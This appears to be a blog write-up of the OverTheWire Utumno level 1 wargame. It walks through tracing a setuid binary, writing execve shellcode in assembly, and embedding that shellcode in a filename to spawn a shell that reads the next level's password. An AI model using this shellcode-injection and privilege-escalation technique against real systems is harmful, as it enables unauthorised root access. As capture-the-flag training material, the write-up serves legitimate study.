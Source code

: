 ```yaml
---
layout: post
title: OverTheWire - Utumno1
---
```


Site: http://overthewire.org/wargames/utumno/ <br>
Level: 1<br>
Situation: Custom Shellcode Exercise<br><br>

We start like we usually do. Create a folder for to work from, file the archtype of the file we are working with then go ahead and run it to see the output.

{% highlight bash %}
utumno1@melinda:~$ mkdir /tmp/uh1
utumno1@melinda:/tmp/uh1$ 
{% endhighlight %}

{% highlight bash %}
utumno1@melinda:/tmp/uh1$ file /utumno/utumno1
/utumno/utumno1: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), 
dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]
=14165b6969bba9f8c46363c08f6166898f704e3e, not stripped
{% endhighlight %}

{% highlight bash %}
utumno1@melinda:/tmp/uh1$ /utumno/utumno1
utumno1@melinda:/tmp/uh1$ 
{% endhighlight %}

Nothing happens lets go ahead and try to pass a parameter in the arguments line to see if anything happens.

{% highlight bash %}
utumno1@melinda:/tmp/uh1$ /utumno/utumno1 asdf
utumno1@melinda:/tmp/uh1$ 
{% endhighlight %}

Nothing again, time to break out ltrace on both running without a parameter and with one.

{% highlight bash %}
utumno1@melinda:/tmp/uh1$ ltrace /utumno/utumno1
__libc_start_main(0x80484a6, 1, 0xffffd794, 0x8048540 <unfinished ...>
exit(1 <no return ...>
+++ exited (status 1) +++
{% endhighlight %}

{% highlight bash %}
utumno1@melinda:/tmp/uh1$ ltrace /utumno/utumno1 asdf
__libc_start_main(0x80484a6, 2, 0xffffd774, 0x8048540 <unfinished ...>
opendir("asdf")                                             = 0
exit(1 <no return ...>
+++ exited (status 1) +++
{% endhighlight %}

Interesting an opendir is called but as we know it will fail due to our directory not existing. Let’s create the directory and pass it through.

{% highlight bash %}
utumno1@melinda:/tmp/uh1$ mkdir asdf
utumno1@melinda:/tmp/uh1$ 
{% endhighlight %}

{% highlight bash %}
utumno1@melinda:/tmp/uh1$ ltrace /utumno/utumno1 /tmp/uh1/asdf
__libc_start_main(0x80484a6, 2, 0xffffd774, 0x8048540 <unfinished ...>
opendir("/tmp/uh1/asdf")                                    = 0x804a008
readdir(0x804a008)                                          = 0x804a024
strncmp("sh_", "..", 3)                                     = 1
readdir(0x804a008)                                          = 0x804a034
strncmp("sh_", ".", 3)                                      = 1
readdir(0x804a008)                                          = 0
+++ exited (status 0) +++
{% endhighlight %}

We know strncmp is used to compare two strings together and the third parameter is used to specify how many characters to match against. We can also see that "." and ".." are being compared against. In Linux these are used to move directories but they are represented as files on the file system. Since it’s doing it multiple times we can infer that it is iterating over the list of files in asdf. To make sure let’s make a new file called "sh_test" in our directory and see what happens.

{% highlight bash %}
utumno1@melinda:/tmp/uh1$ touch asdf/sh_test
{% endhighlight %}

{% highlight bash %}
utumno1@melinda:/tmp/uh1$ ltrace /utumno/utumno1 /tmp/uh1/asdf
__libc_start_main(0x80484a6, 2, 0xffffd774, 0x8048540 <unfinished ...>
opendir("/tmp/uh1/asdf")                                    = 0x804a008
readdir(0x804a008)                                          = 0x804a024
strncmp("sh_", "..", 3)                                     = 1
readdir(0x804a008)                                          = 0x804a034
strncmp("sh_", "sh_test", 3)                                = 0
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
{% endhighlight %}

Interesting here we have crash here. This is about as far as our testing can take us. Time to open up our good old debugger. For this we can use GDB however we will be using hopper to assist us in this.

After loading up in hopper we are going to generate a callgraph to assist us. 

To make things a bit easier when reading the values in memory we will first change our sh_test to sh_testAAAAAAAAAAAAAAAAA.

![Embeded](/images/utumno/utumno1/callgraph1.png)
[FullSize](/images/utumno/utumno1/callgraph1.png)

We can see the standard flow of the application. As we thought there is a looping function that is calling over the directory. To make it easier to read lets go ahead and mark up the callgraph to help understand program flow.

![Embeded](/images/utumno/utumno1/callgraph2.png)
[FullSize](/images/utumno/utumno1/callgraph2.png)

Knowing what occurs we now need to look at the run function and see what is going on. We are going to go ahead and navigate to run and see how it looks.

{% highlight asm %}
run:
    push       ebp
	mov        ebp, esp
	sub        esp, 0x10
	lea        eax, dword [ss:ebp+var_4]
	add        eax, 0x8
	mov        dword [ss:ebp+var_4], eax
	mov        eax, dword [ss:ebp+var_4]
	mov        edx, dword [ss:ebp+arg_0]
	mov        dword [ds:eax], edx
	leave      
	ret        
{% endhighlight %}

We know from our previous callgraph that our filename is stored in EDX. We step through our debugger till right after the return. Then check our values.

![Embeded](/images/utumno/utumno1/hopperdebug1.png)
[FullSize](/images/utumno/utumno1/hopperdebug1.png)

We use x/s $eip to see what our EIP values our.

![Embeded](/images/utumno/utumno1/hopperdebug2.png)
[FullSize](/images/utumno/utumno1/hopperdebug2.png)

Interesting our $eip is in fact our filename. So we know now that our filename location is being passed to EIP and is attempted to be ran and is failing. So now we just have to craft some shell code to exploit this. We have to remember we are limited to the bash environment in what it allows filenames to be. In this case we cannot use our trusty 21 byte /bin/sh as it as "\" when the shell code is generate and bash does not allow this. 

So we have to craft a separate bit of shell code that will call a symlink copy of /bin/sh. Our symlink is simply called "temp" and is generated as follows.

{% highlight bash %}
ln -s /bin/sh temp
{% endhighlight %}

{% highlight asm %}
global _start  		
; Calling execv
; int execve(const char *filename, char *const argv[], char *const envp[]);

section .text
_start:
 
	; Zero out the eax register
	xor eax, eax
        ; Push 0x00000000 to the stack for a null terminated string
	push eax
 
	; Push our desired binary to run
	push 0x706d6574
 
        ; Store position of binary in ebx
	mov ebx, esp
 
        ; Push our null byte and store the address in edx
	push eax
	mov edx, esp 
 
	; push address of binary store in ecx
	push ebx
	mov ecx, esp
  
        ;Move 11 (Execv) to al
	mov al, 11
        ; Call it
	int 0x80

{% endhighlight %}


Now we just upload the file to our folder and compile and link it with the following.

{% highlight bash %}
utumno1@melinda:/tmp/uh1$ nasm -f elf32 shell.asm 
utumno1@melinda:/tmp/uh1$ ld -m elf_i386 -s -o shell shell.o 
{% endhighlight %}

To get the shellcode we need we are going to use a sed online found online.

{% highlight bash %}
objdump -d ./PROGRAM|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s \
' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
{% endhighlight %}

Our shellcode is the following.

{% highlight bash %}
\x31\xc0\x50\x68\x74\x65\x6d\x70\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
{% endhighlight %}

Now we just need to generate the file we will use Perl and touch for this.

{% highlight bash %}
touch `perl -e 'print "sh_\x31\xc0\x50\x68\
x74\x65\x6d\x70\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'`
{% endhighlight %}

Now we create the file inside of the folder labeled asdf and run our application.

{% highlight bash %}
utumno1@melinda:/tmp/uh1/asdf$ touch `perl -e 'print "sh_\x31\xc0\x50\x68\x74\x65\x6d
\x70\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'`
utumno1@melinda:/tmp/uh1/asdf$ /utumno/utumno1 `pwd`
$ cat /etc/utumno_pass/utumno2
[OMITTED]
{% endhighlight %}

There is our password.